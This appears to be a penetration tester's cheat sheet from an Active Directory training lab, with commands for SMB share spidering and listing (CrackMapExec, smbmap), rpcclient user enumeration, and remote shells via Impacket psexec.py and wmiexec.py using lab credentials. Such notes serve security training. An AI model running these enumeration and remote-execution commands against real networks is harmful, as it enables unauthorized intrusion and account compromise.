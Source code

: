 #### Spider_plus
```Shell
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share Dev-share
```
Authenticates with a Windows target over smb using valid credentials and utilizes the CrackMapExec module (-M) spider_plus to go through each readable share (Dev-share) and list all readable files. The results are outputted in JSON. Performed from a Linux-based host.
#crackmapexec #smb #shares 

#### SMBMap To Check Access
```Shell
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5
```
Enumerates the target Windows domain using valid credentials and lists shares & permissions available on each within the context of the valid credentials used and the target Windows host (-H). Performed from a Linux-based host.
#smb #smbmap #shares #permissions  ^22ba76

#### Recursive List Of All Directories
```Shell
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R SYSVOL --dir-only
```
Enumerates the target Windows domain using valid credentials and performs a recursive listing (-R) of the specified share (SYSVOL) and only outputs a list of directories (--dir-only) in the share. Performed from a Linux-based host.
#sysvol #smbmap #shares #directories #smb 

#### RPCClient User Enumeration By RID
```cmd.exe
queryuser 0x457
```
Enumerates a target user account in a Windows domain using its relative identifier (0x457). Performed from a Linux-based host using RPC Client.
#rpcclient #enumeration #usernames 

#### Enumdomusers
```cmd.exe
enumdomusers
```
Discovers user accounts in a target Windows domain and their associated relative identifiers (rid). Performed from a Linux-based host using RPC Client.
#rpcclient #enumeration #usernames 

#### Access with psexec.py
```Shell
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125
```
Impacket tool used to connect to the CLI of a Windows target via the ADMIN$ administrative share with valid credentials. Performed from a Linux-based host.
#impacket #psexec #access #shares  ^df47e4

#### Access with wmiexec.py
```Shell
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5
```
Impacket tool used to connect to the CLI of a Windows target via WMI with valid credentials. Performed from a Linux-based host.
#impacket #wmiexec #access  ^32ec95
